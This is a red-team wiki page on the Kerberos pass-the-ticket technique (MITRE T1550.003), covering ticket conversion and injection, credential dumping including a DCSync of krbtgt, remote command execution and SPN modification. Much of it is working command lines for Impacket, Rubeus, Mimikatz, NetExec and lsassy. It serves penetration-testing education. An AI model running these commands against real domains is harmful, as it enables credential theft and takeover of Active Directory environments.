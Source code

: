 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
---
```


# Pass the ticket

## Theory

There are ways to come across ([cached Kerberos tickets](../../../redteam/credentials/dumping/os-credentials/windows-and-active-directory/cached-kerberos-tickets.md)) or forge ([overpass the hash](ptk.md), [silver ticket](forged-tickets/#silver-ticket) and [golden ticket](forged-tickets/#golden-ticket) attacks) Kerberos tickets. A ticket can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass the ticket](ptt.md). Another name for this is Pass the Cache (when using tickets from, or found on, UNIX-like systems).

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

{% tabs %}
{% tab title="UNIX-like" %}
Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
{% endtab %}

{% tab title="Windows" %}
The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

```bash
Rubeus.exe ptt /ticket:"base64 | file.kirbi"
```

It is then possible to list the tickets in memory using the `klist` command.
{% endtab %}
{% endtabs %}

### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

{% tabs %}
{% tab title="Credentials dumping" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping.md#windows-computer-registry-hives)).

```bash
netexec smb $TARGETS -k --sam
netexec smb $TARGETS -k --lsa
netexec smb $TARGETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [NetExec](https://github.com/Pennyw0rth/NetExec) module (see [dumping credentials from lsass process memory](../credentials/dumping.md#windows-computer-lsass-exe)).

```bash
netexec smb $TARGETS -k -M lsassy
netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}

{% tab title="Command execution" %}
Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts (Python) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets

```bash
netexec winrm $TARGETS -k -x whoami
netexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ([download](https://live.sysinternals.com/)) can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```
{% endtab %}
{% endtabs %}

### Modifying the SPN

When requesting access to a service, a Service Ticket is used. In contains enough information about the user to allow the destination service to decide to grant access or not, without asking the Domain Controller. These information are stored in a protected blob inside the ST called PAC (Privilege Attribute Certificate). In theory, the user requesting access can't tamper with that PAC.

Another information stored in the ST, outside of the PAC, and unprotected, called `sname`, indicates what service the ticket is destined to be used for. This information is basically the SPN (Service Principal Name) of the target service. It's split into two elements: the service class, and the hostname.

Their are multiple service classes for multiple service types (LDAP, CIFS, HTTP and so on) (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)). The problem here is that since the SPN is not protected, there are scenarios (e.g. services configured for [constrained delegations](delegations/constrained.md)) where the service class can be modified in the ticket, allowing attackers to have access to other types of services.

{% tabs %}
{% tab title="UNIX-like" %}
This technique is implemented and attempted by default in all [Impacket](https://github.com/SecureAuthCorp/impacket) scripts when doing pass-the-ticket (Impacket tries to change the service class to something else, and calls this "AnySPN").

Impacket's tgssub.py script can also be used for manual manipulation of the service name value. _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding this script is pending._

```bash
tgssub.py -in ticket.ccache -out newticket.ccache -altservice "cifs/target"
```
{% endtab %}

{% tab title="Windows" %}
With [Rubeus](https://github.com/GhostPack/Rubeus), it can be conducted by supplying the `/altservice` flag when using the `s4u` or the `tgssub` modules and the whole SPN can be changed (service class and/or hostname).

```powershell
Rubeus.exe tgssub /altservice:cifs /ticket:"base64 | ticket.kirbi"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secureauth.com/blog/kerberos-delegation-spns-and-more" %}
Understand the AnySPN technique
{% endembed %}
